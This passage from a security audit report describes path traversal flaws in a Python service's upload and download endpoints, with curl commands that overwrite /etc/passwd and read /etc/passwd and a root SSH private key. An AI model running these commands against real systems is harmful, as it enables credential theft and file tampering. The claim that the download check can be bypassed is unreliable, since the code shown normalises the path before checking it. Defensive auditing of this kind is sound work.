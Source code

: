 ### 1.2 Path Traversal in File Upload (CVE-2023-YYYY Equivalent)
**Severity:** CRITICAL  
**CVSS Score:** 9.1  
**Location:** Lines 139-140, 142-144

**Vulnerability Details:**
```python
filename = file_item.filename  # No sanitization
filepath = os.path.join(upload_dir, filename)  # Direct join allows traversal
```

**Risk:** Arbitrary file write across the filesystem
**Exploitation:**
```bash
# Upload with traversal filename
curl -X POST http://target:8080/api/upload \
  -F "file=@malicious.txt;filename=../../../etc/passwd"
```

**Impact:**
- System file modification
- Configuration tampering
- Container escape potential
- Data corruption

### 1.3 Path Traversal in File Download (CVE-2023-ZZZZ Equivalent)
**Severity:** CRITICAL  
**CVSS Score:** 8.6  
**Location:** Lines 378-425

**Vulnerability Details:**
```python
file_path = params.get('path', [''])[0]
full_path = os.path.join(base_dir, file_path)  # Insufficient validation
full_path = os.path.abspath(full_path)
if not full_path.startswith(base_dir):  # Weak check, can be bypassed
```

**Risk:** Arbitrary file disclosure
**Exploitation:**
```bash
curl "http://target:8080/api/download?path=../../../etc/passwd"
curl "http://target:8080/api/download?path=../../../../root/.ssh/id_rsa"
```

**Impact:**
- Sensitive file disclosure
- Credential theft
- System information leakage

### 1.4 No Authentication or Authorization
**Severity:** CRITICAL  
**CVSS Score:** 9.0  
